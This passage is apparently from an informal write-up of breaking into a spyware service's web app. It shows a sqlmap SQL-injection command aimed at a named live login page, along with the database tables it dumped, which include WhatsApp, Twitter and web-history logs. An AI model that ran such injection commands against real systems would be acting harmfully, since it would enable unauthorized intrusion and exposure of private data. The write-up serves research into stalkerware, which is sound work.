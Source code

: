 oh hell yea, successful sqli! upon then trying to exploit the sqli to forcibly log in to the admin panel it just errors out again, making it clear this forgotten about web app was not just vulnerable but also broken. well, at least it was still possible to get some data with [sqlmap](https://sqlmap.org/)

```bash
sqlmap --data 'email=test@gmail.com&password=tesst' -u 'https://webdetetive.era3000.com/login.php' --risk 3 --dbms mysql --tables --exclude-sysdbs
```

```md
Database: mobileinnova
[5 tables]
+--------------------+
| log                |
| addfunds_options   |
| affiliates         |
| log_saferespiao    |
| log_saferspy       |
+--------------------+

Database: ownspy_saferespiao
[75 tables]
+--------------------+
| Postcodes          |
| export             |
| log                |
| abperson           |
| abvalue            |
| account_notes      |
| affiliates         |
| analysis           |
| apps               |
[...]
| tmpcar             |
| tmptable           |
| twitter            |
| twitter_chats      |
| twitter_profiles   |
| users              |
| video              |
| webhistory         |
| whatsapp           |
| whatsapplite       |
| whatsapplite2      |
| wordlist           |
| words              |
| wordsdetected      |
| wx_contacts        |
| wx_msgs            |
| youtube            |
+--------------------+
```
